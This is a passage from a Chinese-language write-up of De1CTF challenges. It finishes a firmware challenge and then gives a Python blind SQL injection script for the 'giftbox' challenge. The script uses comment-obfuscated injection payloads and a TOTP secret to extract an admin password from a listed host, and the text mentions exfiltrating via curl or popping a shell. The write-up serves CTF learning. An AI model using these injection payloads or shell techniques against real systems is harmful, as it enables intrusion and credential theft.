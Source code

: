    就可以拿输出的md5值提交调试，就可以执行.so了
   
   ![](https://wulasite.top/mdimage/de1ctf/firmware.png)
   
   
   
   可以看到返回了Bad version，但这并不重要。现在去uploads/firmware/里查看一下wulasite.txt即可得到flag。
   
   **思考**：
   
   这个响应头返回的时间到底是啥时间？
   
   根据下面脚本的实验，对比脚本一开始输出的时间和sleep(5)后的时间发现，是脚本一开始执行的时间，所以就是如果上传的时间不超过1s，就可以根据返回的时间直接得出文件名，否则要在一定秒数内猜解。
   
   ```php
   <?php
   
       echo time();
       echo '<br>';
   	sleep(5);
       echo time();
   ```
   
   当然，除了直接写文件外，还可以用curl发送到自己的服务器上或者xss平台上，弹shell。
   
   
### giftbox

这题比想象中的简单，只是没想到是SQL注入，主要是这个命令带参数的时候，会把空格解析成参数，所以一时没想法，也跟当时做题时间比较晚，第二天还要上班，真实社畜了。

这题切入点还是SQL注入，而且是没有任何过滤的，所以直接注出admin的密码就行，设置的障碍点就是一个TOTP的认证。所以当观察发包的时候看到这个totp参数，肯定要去找js代码，可以找得到。做过爬虫的其实都知道，这是一个非常基本的反扒策略，我做过抖音的视频爬虫，它的接口也要求带一个跟当前时间有关的参数，但是具体算法需要你一步一步debug，然后还有混淆，真是艰难。这题就很简单了，就是直接告诉你用的totp，访问/js目录还可以看到totp的python安装包。

直接放writeup的脚本吧，注入就是经典的二分法了，后面遇到的是open_basedir的绕过，可以参考[这篇文章](https://xz.aliyun.com/t/4720)

```python
import requests
import urllib
import string
import pyotp

url = 'http://207.148.79.106:8090/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

length = 0
left = 0x0
right = 0xff

def get_password():
    while True:
        mid = int((right - left) / 2 + left)
        if mid == left:
            length = mid
            break
        username = "'/**/or/**/if(length((select/**/password/**/from/**/users/**/limit/**/1))>=%d,1,0)#" % mid
        password = "b"
        payload = 'login %s %s' % (username, password)
        payload = urllib.quote(payload)
        payload = url % (payload, totp.now())
        res = s.get(payload).text
        if 'incorrect' in res:
            left = mid
        else:
            right = mid
    print(length)

    real_password = ''
```